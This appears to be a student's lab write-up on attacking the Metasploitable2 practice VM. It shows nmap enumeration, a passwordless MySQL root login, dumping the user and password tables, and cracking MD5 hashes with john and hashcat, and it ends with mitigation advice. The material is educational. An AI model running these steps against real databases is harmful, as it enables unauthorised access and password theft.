



# 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases 🗝️💻  

## 📌 Objective  
- Identify and exploit cryptographic weaknesses in database authentication and password storage.  
- Perform offline hash cracking after retrieving password hashes.  
- Investigate real-world cryptographic failures.  
- Propose mitigation strategies and document findings.  

---

## 🖥️ Lab Environment Setup  
- **Attacker VM:** Kali Linux 2024.4  
- **Target VM:** Vulnerable Linux VM (Metasploitable2)  
- **Tools Used:** `mysql`, `sqlite3`, `john`, `hashcat`, `hashid`, `hash-identifier`, `Wireshark`  

---

## 🔍 Task 1: Service Enumeration and Initial Access  

## 🎯 Goal  
Identify the running database service and gain access from Kali Linux.

---

## 🔹 1.1 Nmap scan 
- Scan to identify open database service.
```bash
nmap -sV <target-ip>
```

 

- Connect with target open database (mysql on port:3306 & portgresql on port:5432). 
```bash
mysql -h <target-ip> -u root 
```

 
- Error found: `ERROR 2026 (HY000): TLS/SSL error: wrong version number`.

- Referring from `mysql --help`. 
```bash
mysql --help | grep -i ssl  
```
- Fix the command using: `--skip-ssl` command.

 

- Troubleshooting error with the fix command. 
```bash
mysql -h <target-ip> -u root --skip-ssl  
```

 

---

## ⚠️ Problems Encountered  

| Problem                       | Solution                                |
|------------------------------|------------------------------------------|
| Access denied on default user| Tried login with no password, found open account |
| Unknown database error       | Specified a known DB name from previous enumeration |

---

# 🧾 Task 2: User Enumeration & Authentication Flaws  

## 🎯 Goal  
Find users with no passwords or weak authentication mechanisms.

---

## 🛠️ Steps  
1. Connected to the database successfully.  
2. Queried user table:  
```sql
SELECT user, password FROM mysql.user;
```


---

## ⚠️ Question  
**Q:** Is accessing a DB with no password a cryptographic failure?  
**A:** Yes — it violates authentication principles. It implies either poor password policy or misconfigured access control, allowing attackers to bypass proper identity verification.

---

# 🔐 Task 3: Password Hash Discovery & Hash Type Identification  

## 🎯 Goal  
Extract and identify password hashes stored in the database.

---

## 🛠️ Steps  
1. Listed all databases:  
```sql
SHOW DATABASES;
USE <vulnerable_db>;
```

2. Found table with credentials:  
```sql
SELECT * FROM users;
```

3. Extracted hashes:  
```bash
cat hashes.txt
```

4. Identified hash type:  
```bash
hashid hashes.txt
```
or  
```bash
hash-identifier
```


---

## ⚠️ Question  
**Q:** What cryptographic weaknesses exist in this hashing method?  
**A:** If it's `MD5`, `SHA1`, or unsalted hash — they are fast and easily cracked using rainbow tables or brute-force tools. No salting means same hash for same password.

---

# 🧨 Task 4: Offline Hash Cracking  

## 🎯 Goal  
Crack the extracted hashes using offline tools like John or Hashcat.

---

## 🛠️ Tools & Commands  

### 🔹 Using `john`:  
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

### 🔹 Using `hashcat`:  
```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```


---

## 📊 Cracking Results  

| Username | Hash                         | Plaintext | Strength (Weak/Strong) |
|----------|------------------------------|-----------|-------------------------|
| alice    | 5f4dcc3b5aa765d61d8327deb882cf99 | password  | Weak                    |

---

# 📡 Task 5: Cryptographic Analysis & Mitigation  

## 🔎 Identified Issues  

| Area            | Weakness                             |
|-----------------|--------------------------------------|
| Authentication  | No password or weak default creds    |
| Hashing         | Unsalted MD5/SHA1                    |
| Transmission    | Plaintext login (if not encrypted)   |

---

## 🛡️ Mitigation Suggestions  

| Problem              | Mitigation                                      |
|----------------------|--------------------------------------------------|
| Weak Hashing         | Use `bcrypt`, `scrypt`, or `Argon2`              |
| No Salting           | Add unique salt per user                         |
| Plaintext Transmission | Use `SSL/TLS` for DB connections                |
| No Password Policy   | Enforce strong passwords and account lockout     |

---

## 📷 Optional Wireshark Check  
- Captured DB login traffic to confirm encryption.  
- If using MySQL without SSL, credentials appear in plaintext.  

---

# 📦 Tools Used  

- `nmap`, `mysql`, `sqlite3`, `john`, `hashcat`, `hashid`, `hash-identifier`, `Wireshark`  
- Wordlists: `rockyou.txt`, custom lists  

---

# 📝 Conclusion  

- Discovered and connected to insecure database services.  
- Identified users with missing/weak passwords.  
- Extracted and cracked weak password hashes.  
- Verified hashing weaknesses (e.g., MD5, SHA1).  
- Suggested strong cryptographic protections like `bcrypt` and encrypted channels.  
